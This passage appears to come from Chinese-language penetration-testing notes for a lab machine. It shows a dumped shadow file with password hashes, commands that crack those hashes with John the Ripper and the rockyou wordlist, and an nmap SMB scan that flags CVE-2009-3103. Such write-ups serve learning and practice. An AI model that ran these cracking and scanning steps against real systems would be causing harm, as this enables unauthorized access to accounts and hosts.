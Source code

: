 						  pcap:!!:14513:0:99999:7:::
						  john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
						  harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
						  
						  ```
						- 先解壓縮密碼表
							- ```shell
							  sudo gunzip /usr/share/wordlists/rockyou.txt.gz
							  ```
							- 開始進行爆破
								- ```shell
								  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
								  ```
				- 嘗試以 samba 切入攻擊
					- ```shell
					  ┌──(kali㉿kali)-[~/Documents]
					  └─$ sudo nmap -p139,445 --script=smb-os-discovery,smb-vuln* 192.168.204.44
					  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 05:52 EST
					  Nmap scan report for 192.168.204.44
					  Host is up (0.00045s latency).
					  
					  PORT    STATE  SERVICE
					  139/tcp open   netbios-ssn
					  445/tcp closed microsoft-ds
					  MAC Address: A0:E7:0B:C7:DB:ED (Intel Corporate)
					  
					  Host script results:
					  |_smb-vuln-ms10-061: Could not negotiate a connection:SMB: ERROR: Server returned less data than it was supposed to (one or more fields are missing); aborting [14]
					  |_smb-vuln-ms10-054: false
					  | smb-vuln-cve2009-3103: 
					  |   VULNERABLE:
					  |   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
					  |     State: VULNERABLE
					  |     IDs:  CVE:CVE-2009-3103
					  |           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
					  |           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
					  |           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
					  |           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
					  |           aka "SMBv2 Negotiation Vulnerability."
					  |           
					  |     Disclosure date: 2009-09-08
					  |     References:
					  |       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
					  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
					  